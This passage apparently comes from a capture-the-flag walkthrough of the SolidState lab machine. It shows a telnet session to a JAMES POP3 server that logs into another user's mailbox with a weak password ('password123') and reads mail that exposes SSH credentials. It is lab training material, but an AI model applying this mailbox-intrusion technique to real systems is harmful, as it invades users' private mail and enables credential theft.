 ```
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
John, 

Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James
```

Next, we will now inspect Mindy's account on the POP3 server. Using the STAT command, we realize that Mindy has 2 emails on her account. Inspecting the email contents, we realize that the credentials of Mindy's SSH account is being exposed in the email.

```
┌──(kali㉿kali)-[~]
└─$ telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
USER mindy
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
+OK
PASS password123
+OK Welcome mindy
STAT
+OK 2 1945
RETR 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
```